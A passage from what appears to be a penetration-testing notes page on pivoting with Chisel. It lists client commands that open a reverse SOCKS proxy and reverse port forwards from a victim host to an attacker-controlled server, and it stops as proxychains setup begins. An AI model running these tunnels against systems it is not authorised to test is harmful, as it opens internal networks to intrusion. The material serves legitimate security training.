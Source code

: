 Solution 1(i suggest it)

Via socks5 bring us all ports:

```bash
./chisel client 10.10.10.4:33 R:socks
```

Solution 2

Bringing only one port which would be like this:

```bash
./chisel client <Attacker_IP>:2000 R:80:<Victim_IP>:80
```

Solution 3

```
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> R:8000:<Victim_IP>:80
```

* IP = The IP address of your Chisel server
* PORT = The port you set on your Chisel sever
* R:socks = enables the reverse SOCKS proxy

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

The connection will have been opened on the local port of our machine through 1080.

{% hint style="info" %}
Rename terminal tabs is a best practies to facilitate understanding!
{% endhint %}

<div align="left">

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Rename tabs with a significant name</p></figcaption></figure>

</div>

### Setting Proxychains

First, check that you have [proxychains↗](https://github.com/haad/proxychains) installed. It comes preinstalled in Kali Linux or Parrot. With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
